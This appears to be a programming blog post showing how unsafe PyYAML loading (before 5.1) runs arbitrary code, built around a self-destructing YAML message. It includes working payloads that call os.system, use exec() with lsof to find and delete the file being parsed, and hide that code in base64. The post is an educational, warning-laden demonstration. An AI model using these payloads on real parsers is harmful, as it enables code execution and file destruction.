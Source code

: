 ```yaml
---
layout: post
date: 2019-12-11 08:52:40 +0000
title: This YAML file will self-destruct in five seconds!
summary: YAML allows you to execute arbitrary code in a parser, even if you really really shouldn't.
category: Programming and code

theme:
  card_type: summary_large_image
  image: /images/2019/tape_recorder.jpg
---
```


If you know the *Mission: Impossible* films (or before that, the 1966 TV series), you've surely heard the famous phrase, "This tape will self-destruct in five seconds. Good luck, Jim."
As soon as our hero hears his instructions, the tape emits a cloud of smoke and is rendered useless.

But would this work in 2019?
Modern spies don't use analogue recorders and reel-to-reel tape, they use computers and digital files.
Could we equip them with a message that would self-destruct as soon as they read it?
The answer: yes, but you really shouldn't.

<img src="/images/2019/tape_recorder_1x.jpg" srcset="/images/2019/tape_recorder_1x.jpg 1x, /images/2019/tape_recorder.jpg 2x" alt="A tape recorder with smoke coming out of it.">

It's easy to create an executable file that destroys itself as soon as it runs.
The challenge is to do it in a format that looks innocuous -- at a casual glance, it looks like a plain text file, with no trickery or traps.

Let's talk about [YAML], which is a language for serialising data.
You can use it to store data structures like lists, maps, and text -- similar to JSON or XML -- and it's often used for config files and the like.
It's meant to be human-readable, which is why it's so popular for storing config.
Here's a small example:

```yaml
name: "lexie"
cat_count: 2

cats:
  - name: "Bailey"
    colour: "ochre"
  - name: "Bertie"
    colour: "black"
```

[YAML]: https://en.wikipedia.org/wiki/YAML

The basic YAML syntax allows you to specify simple data structures (lists, maps, and so on), but what if you want to serialise something more complicated?

You can use [tags] in your YAML file to tell the parser that it should treat the data as a more complex object.
For example, the `!square` tag here could tell the parser that rather than treating this value as a string, it should create an instance of the user-defined `Square` class:

```yaml
!square "0,0,10,10"
```

[tags]: https://yaml.org/spec/1.2/spec.html#id2761292

You can also have language-specific tags.
If you run this through a Python YAML parser, it creates a Python tuple instead of a list:

```yaml
!!python/tuple [triangle, square, circle]
```

To do this, your parser needs to be executing arbitrary code, and that's always a recipe for security vulnerabilities.
If you trust your YAML, this is less of an issue -- but if you're parsing YAML from unknown sources, this could be used to run malicious code on your machine.

For a long time, the default `load()` function in the [PyYAML module][pyyaml] was unsafe, and would run any Python code in the YAML it received.
This meant you could call system functions from YAML:

```python
import yaml

yaml.load("!!python/object/new:os.system [echo BOOM!]")
```

but rather than calling `echo BOOM!`, the attacker might call something more unpleasant, like `rm`.

There was a `safe_load()` function that would only load a subset of YAML that didn't feature arbitrary code execution, but it wasn't until earlier this year that safe loading [became the default][deprecation].

[pyyaml]: https://pypi.org/project/PyYAML/
[deprecation]: https://github.com/yaml/pyyaml/wiki/PyYAML-yaml.load(input)-Deprecation

Ever since I learnt about this behaviour, I've idly wondered if you could use this to cause the YAML file to delete itself, and yesterday I got that working.
This is shocking, disgusting code, and you shouldn't use it in practice -- but it proves the idea.

Using `os.system` is powerful, but the builtin [`exec()` function][exec] is even more powerful.
If you pass this a string, it tries to execute the string as Python code.
Always be careful when using this function, and *never* call it with untrusted input.

Let's call `exec()` from a YAML file:

```yaml
!!python/object/new:exec [
  name = "Mr Phelps";

  print("Hello %s." % name)
]
```

If you pass this to `yaml.load()` with a vulnerable version of PyYAML (< 5.1), it prints the text `Hello Mr Phelps.` -- but we could do anything we like here.

[exec]: https://docs.python.org/3/library/functions.html#exec

We could, say, look up the ID of the parent process (the Python interpreter that's doing the parsing), and then use [lsof][lsof] to see what files that process has open:

```yaml
!!python/object/new:exec [
  import os;

  parent_process_id = os.getppid();

  os.system("lsof -p %s" % parent_process_id);
]
```

[lsof]: https://linux.die.net/man/8/lsof

And if we can see what files a process has open, well, we could see what YAML file it has open for parsing, and delete it.
I tried to write something like this:

```yaml
!!python/object/new:exec [
  import os;
  import subprocess;
  import sys;
  import time;

  parent_process_id = os.getppid();

  open_files = subprocess.check_output(
      ["lsof", "-p", str(parent_process_id)]
  ).decode("utf8");

  filenames = [
      line.split()[-1]
      for line in open_files.splitlines()
  ];

  yaml_files = [
      f
      for f in filenames
      if f.endswith((".yml", ".yaml"))
  ];

  for yf in yaml_files:
      print(
          "This file will self-destruct in five seconds. Good luck, Jim.",
          file=sys.stderr
      );
      time.sleep(5);
      os.unlink(yf)
]
```

but you get errors from the YAML parser -- the square brackets, quotes, and commas look like they might be part of the YAML syntax, and the parser gets confused.

I hit this problem a couple of times, and I tried to be clever and write my Python code to avoid any of those characters, but it severely limits what you can do.
(Among other things, no commas means you can't call functions with more than one argument.)

We can get round this by doubling down on a bad idea.
If you want to get a string through an environment that only allows a limited set of characters, you can often use [base64 encoding][base64].
This encodes your text in a form that only uses alphanumeric characters, plus three punctuation characters (`+`, `/`, and `=`).
If we put base64 encoded source in the YAML file, decode it at runtime, then call `exec()` a second time -- that would get past the YAML parser.

Here's what that would look like:

```yaml
!!python/object/new:exec [
  import base64;

  encoded_source = b"... some base64 encoded source ...";
  source = base64.b64encode(encoded_source);

  exec(source)
]
```

[base64]: https://en.wikipedia.org/wiki/Base64

And if we do this to the code I was trying to run above, here's the message we end up with:

```yaml
from: "Lexie <lexie@alexwlchan.net>"
to: "Jim Phelps <jim.phelps@imf.org>"

message: "Beware Swiss villains bearing lasers!"

action:
  !!python/object/new:exec [
    import base64;

    encoded_source = (
        b"aW1wb3J0IG9zOwppbXBvcnQgc3VicHJvY2VzczsKaW1wb3J0IHN5czsKaW1wb3J0IHRp"
        b"bWU7CgpwYXJlbnRfcHJvY2Vzc19pZCA9IG9zLmdldHBwaWQoKTsKCm9wZW5fZmlsZXMg"
        b"PSBzdWJwcm9jZXNzLmNoZWNrX291dHB1dCgKICAgIFsibHNvZiIsICItcCIsIHN0cihw"
        b"YXJlbnRfcHJvY2Vzc19pZCldCikuZGVjb2RlKCJ1dGY4Iik7CgpmaWxlbmFtZXMgPSBb"
        b"CiAgICBsaW5lLnNwbGl0KClbLTFdCiAgICBmb3IgbGluZSBpbiBvcGVuX2ZpbGVzLnNw"
        b"bGl0bGluZXMoKQpdOwoKeWFtbF9maWxlcyA9IFsKICAgIGYKICAgIGZvciBmIGluIGZp"
        b"bGVuYW1lcwogICAgaWYgZi5lbmRzd2l0aCgoIi55bWwiLCAiLnlhbWwiKSkKXTsKCmZv"
        b"ciB5ZiBpbiB5YW1sX2ZpbGVzOgogICAgcHJpbnQoCiAgICAgICAgIlRoaXMgZmlsZSB3"
        b"aWxsIHNlbGYtZGVzdHJ1Y3QgaW4gZml2ZSBzZWNvbmRzLiBHb29kIGx1Y2ssIEppbS4i"
        b"LAogICAgICAgIGZpbGU9c3lzLnN0ZGVycgogICAgKTsKICAgIHRpbWUuc2xlZXAoNSk7"
        b"CiAgICBvcy51bmxpbmsoeWYpOwogICAgcHJpbnQoIvCfkqUiKTs="
    );
    source = base64.b64decode(encoded_source);

    exec(source)
  ]
```

If Jim Phelps parses this using his special IMF-approved message reader:

```python
import yaml  # PyYAML < 5.1

with open("message.yml") as f:
    message = yaml.load(f)
    print(message)
```

then he sees our message, and then the file will burst into (metaphorical) smoke before his eyes!

This code is dastardly, terrible, and nobody should use it.
It abuses unsafe YAML loading and the `exec()` function, neither of which should ever be used with untrusted input -- or ideally at all.
It's also quite fragile; `lsof` behaves differently across platforms, and this likely won't work on macOS or Windows.

Please don't use this for anything serious.
If it explodes, I will disavow any knowledge of your code.
